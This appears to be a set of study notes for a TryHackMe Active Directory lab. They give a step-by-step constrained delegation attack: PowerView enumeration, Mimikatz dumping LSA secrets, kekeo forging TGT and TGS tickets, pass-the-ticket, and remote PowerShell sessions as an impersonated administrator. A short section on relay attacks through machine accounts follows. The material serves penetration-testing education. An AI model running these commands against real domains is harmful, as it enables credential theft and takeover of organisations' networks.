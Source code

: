##### Constrained Delegation Exploitation

`Import-Module <PowerView.ps1 file location>` - Import the PowerView module.
`Get-NetUser -TrustedToAuth` - Enumerate available delegations.

For the example let's say that based on the output svcIIS account can delegate the HTTP and WSMAN (services which Powershell remoting use as well) services on THMSERVER1, ideally we would impersonate someone from admins group to have administrative access over THMSERVER1.

There is a service on the host THMWRK running as the svcIIS user, with administrative access we can dump the LSASecrets, part of the Windows registry hive where credentials are stored for features such as Windows services.

`<mimikatz.exe file locaton>` - Launch Mimikatz.
`token::elevate` - Impersonate the SYSTEM user.
`lsadump::secrets` - Mimikatz interacts with the registry hive to pull the clear text credentials.

Now we can perform a Kerberos delegation attack, but first exit out of Mimikatz after the `token::elevate` command.

`<kekeo.exe file location>` - Launch kekeo.
`tgt::ask /user:svcIIS /domain:<domain> /password:<password>` - Generate a TGT which can be used to generate tickets for HTTP and WSMAN services, user is the one with the constrained delegation permissions and the domain is the domain we are attacking.

Now we can forge TGS requests for the account we want to impersonate, we need to do this for both HTTP and WSMAN to create a PSSession on THMSERVER1.

`tgs::s4u /tgt:<the TGT we generated the previous step> /user:<user we want to impersonate> /service:http/THMSERVER1.za.tryhackme.loc` - For the user we should choose admins with permissions over servers, the service is the service we want to impersonate using delegation.

Now run the same command for the WSMAN service and than run Mimikatz.

`privilege::debug` - Should get "Privilege '20' OK".
`kerberos::ptt <TGS ticket>` - Import the TGS ticket, run this command twice for both of the tickets.

You can run `klist` outside of Mimikatz to confirm you successfully imported the TGS tickets.

`New-PSSession -ComputerName thmserver1.za.tryhackme.loc` - Create the PSSession on THMSERVER1.
`Enter-PSSession -ComputerName thmserver1.za.tryhackm.loc` - Enter the PSSession on THMSERVER1.

We now have privileged access to THMSERVER1.

## Exploiting Automated Relays

##### Machine Accounts

All Windows hosts have a machine account associated with the machine, the account has uncrackable password of 120 characters (UTF16) long and automatically rotated every 30 days.

Different DCs use machine accounts to synchronize AD updates and changes, when you request a certificate on behalf of the host you are working on, the machine account of that host is used for authentication to the AD Certificate Service.

There is an exceptional case in AD in which one machine has admin rights over another machine, this is like DCs or SQL clusters that must be synchronized, these instances provide a very interesting attack vectors for coercing authentication.
